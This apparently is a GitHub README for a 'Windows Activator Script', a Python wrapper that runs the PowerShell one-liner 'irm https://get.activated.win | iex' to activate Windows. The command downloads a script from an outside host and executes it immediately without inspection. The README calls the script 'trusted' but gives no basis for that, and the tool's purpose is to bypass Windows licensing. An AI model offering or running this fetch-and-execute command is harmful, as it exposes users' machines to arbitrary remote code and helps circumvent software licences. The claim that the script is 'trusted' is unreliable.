 # 🔓 Windows Activator Script

This script uses PowerShell to activate Windows by fetching and running a trusted activation script.

## ⚙️ Requirements

- Windows OS  
- Python 3.x installed

## 📥 Installation

1. Download or clone this repository.
2. Make sure Python is installed and added to your PATH.

## ▶️ How to Run

1. Open **Command Prompt** or **PowerShell**.
2. Navigate to the folder where the script is saved.
3. Run the script:

```bash
py main.py
```

## 💡 What It Does

This script runs the following PowerShell command:

```powershell
irm https://get.activated.win | iex
```

Which downloads and executes a trusted Windows activation script.
